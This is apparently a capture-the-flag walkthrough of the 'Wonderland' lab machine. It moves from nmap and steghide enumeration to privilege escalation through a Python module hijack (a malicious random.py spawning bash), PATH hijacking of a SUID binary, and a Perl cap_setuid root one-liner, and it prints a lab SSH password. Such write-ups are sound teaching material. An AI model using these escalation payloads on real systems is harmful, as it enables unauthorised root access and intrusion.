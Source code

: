 # Enumeration

Starting out with nmap
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-15 14:24 IST
Nmap scan report for 10.10.167.17
Host is up (0.25s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.02 seconds
```

### Port 80
Looking at the webpage, we found nothing interesting
  
![image](https://user-images.githubusercontent.com/43528306/122667086-a9f7f580-d1ce-11eb-87c3-88dff5cf73ef.png)

We had noting else, so looking at the image file. It might be some kind of stego. So lets download the file and check it.
```bash
  steghide info white_rabbit_1.jpg 
"white_rabbit_1.jpg":
  format: jpeg
  capacity: 99.2 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "hint.txt":
    size: 22.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
```
We have a `hint.txt` file, with contents: `follow the r a b b i t`. 
  
After running directory scan, we found */r*, and as per the hint we can try */r/a/b/b/i/t*
Looking at the source code of the file, we got the credentials
  ```
  alice:HowDothTheLittleCrocodileImproveHisShiningTail
  ```
  
## Alice
Lets ssh into the box using the creds we found
```bash
alice@wonderland:~$ ls -l
total 8
-rw------- 1 root root   66 May 25 17:08 root.txt
-rw-r--r-- 1 root root 3577 May 25 02:43 walrus_and_the_carpenter.py
```
Checking the sudo permissions
```bash
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
 ```
 
 So we can run the python script as user `rabbit`. Lets look at the contents of script
 ```python
 import random
 
 poem="""
 ...[snip]...
 """
 for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
 ```
 
 It seems like we can't do anything here as we don't have write access to file so we can't modify it. After looking at lot at other places in search of passwords or some kind of priv-esc, we found nothing.
 Coming back to script, we saw its importing `random` module. We can check the path of modules using
 ```python
 >> import sys
 >> sys.path
 ['', '/usr/lib/python36.zip', '/usr/lib/python3.6', '/usr/lib/python3.6/lib-dynload', '/usr/local/lib/python3.6/dist-packages', '/usr/lib/python3/dist-packages']
 ```
 
 Looking at it, first value seems empty, means its checking in current directory first. So we can *hijack* the library.
 
 > When python looks for libraries/scripts to import it checks local directory first, then additional packages and finally base libraries

We can create our python script with name `random.py`
```python
import os
os.system('/bin/bash')
```

So when we run the script, python import our malicious `random.py` and we get the shell as *rabbit*.

## Rabbit
Looking in the home directory of rabbit, we found
```bash
rabbit@wonderland:/home/rabbit$ ls -l
total 20
-rwsr-sr-x 1 root root 16816 May 25  2020 teaParty
```
*Strings* binary was not present on the box, so to analyze it, lets transfer it to our box.
Running strings on binary
```bash
/bin/echo -n 'Probably by ' && date --date='next hour' -R
Ask very nicely, and I will give you some tea while you wait for him
Segmentation fault (core dumped)
```

It was using `echo` was called with absolue path but `date` was not. Means we can use *Path Hijacking* to execute command.
Lets make a file named `date`
```bash
#!/bin/bash
bash -p
```

*I first tried using chmod +xs /bin/bash, but it throwed error: permission denied. I found that the binary was also setting uid to 1003, which was hatter user. This make sense now*

Run the binary with our *date* file 
```bash
rabbit@wonderland:/home/rabbit$ PATH=/home/rabbit:$PATH ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$
```
We got shell as hatter

## Hatter
Looking at home directory
```bash
hatter@wonderland:/home/hatter$id
uid=1003(hatter) gid=1002(rabbit) groups=1002(rabbit)

hatter@wonderland:/home/hatter$ls -l
-rw------- 1 hatter hatter   29 May 25  2020 password.txt
```

## Root
We can now login as *hatter*. Running linpeas, we found
```
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```
```bash
ls -la /usr/bin/perl /usr/bin/perl5.26.1
-rwxr-xr-- 2 root hatter 2097720 Nov 19  2018 /usr/bin/perl
-rwxr-xr-- 2 root hatter 2097720 Nov 19  2018 /usr/bin/perl5.26.1
```

Both binaries are owned by root and hatter group. As we are hatter, we can easily run these
```bash
/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

And we are root.

 
